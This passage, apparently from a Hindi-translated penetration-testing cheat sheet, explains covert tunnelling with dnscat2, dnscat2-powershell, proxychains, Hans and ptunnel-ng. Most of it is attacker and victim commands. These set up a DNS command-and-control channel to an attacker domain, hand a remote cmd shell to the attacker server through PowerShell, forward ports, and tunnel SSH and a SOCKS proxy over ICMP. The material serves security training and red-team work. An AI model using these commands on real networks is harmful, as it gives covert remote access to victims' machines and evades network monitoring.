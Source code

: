 DNS के माध्यम से C\&C चैनल स्थापित करता है। इसे रूट विशेषाधिकारों की आवश्यकता नहीं है।
```bash
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com

# If using it in an internal network for a CTF:
attacker> ruby dnscat2.rb --dns host=10.10.10.10,port=53,domain=mydomain.local --no-cache
victim> ./dnscat2 --dns host=10.10.10.10,port=5353
```
#### **PowerShell में**

आप [**dnscat2-powershell**](https://github.com/lukebaggett/dnscat2-powershell) का उपयोग करके powershell में dnscat2 क्लाइंट चला सकते हैं:
```
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.10.10 -Domain mydomain.local -PreSharedSecret somesecret -Exec cmd
```
#### **dnscat के साथ पोर्ट फॉरवर्डिंग**
```bash
session -i <sessions_id>
listen [lhost:]lport rhost:rport #Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host
```
#### Proxychains DNS बदलें

Proxychains `gethostbyname` libc कॉल को इंटरसेप्ट करता है और tcp DNS अनुरोध को socks प्रॉक्सी के माध्यम से टनल करता है। **डिफ़ॉल्ट** रूप से, **DNS** सर्वर जो proxychains उपयोग करता है वह **4.2.2.2** है (हार्डकोडेड)। इसे बदलने के लिए, फ़ाइल संपादित करें: _/usr/lib/proxychains3/proxyresolv_ और IP बदलें। यदि आप **Windows वातावरण** में हैं, तो आप **डोमेन कंट्रोलर** का IP सेट कर सकते हैं।

## Go में टनल

[https://github.com/hotnops/gtunnel](https://github.com/hotnops/gtunnel)

## ICMP टनलिंग

### Hans

[https://github.com/friedrich/hans](https://github.com/friedrich/hans)\
[https://github.com/albertzak/hanstunnel](https://github.com/albertzak/hanstunnel)

दोनों सिस्टम में टन अडाप्टर बनाने और ICMP इको अनुरोधों का उपयोग करके उनके बीच डेटा टनल करने के लिए रूट की आवश्यकता होती है।
```bash
./hans -v -f -s 1.1.1.1 -p P@ssw0rd #Start listening (1.1.1.1 is IP of the new vpn connection)
./hans -f -c <server_ip> -p P@ssw0rd -v
ping 1.1.1.100 #After a successful connection, the victim will be in the 1.1.1.100
```
### ptunnel-ng

[**इसे यहाँ से डाउनलोड करें**](https://github.com/utoni/ptunnel-ng.git).
```bash
# Generate it
sudo ./autogen.sh

# Server -- victim (needs to be able to receive ICMP)
sudo ptunnel-ng
# Client - Attacker
sudo ptunnel-ng -p <server_ip> -l <listen_port> -r <dest_ip> -R <dest_port>
# Try to connect with SSH through ICMP tunnel
ssh -p 2222 -l user 127.0.0.1
# Create a socks proxy through the SSH connection through the ICMP tunnel
ssh -D 9050 -p 2222 -l user 127.0.0.1
```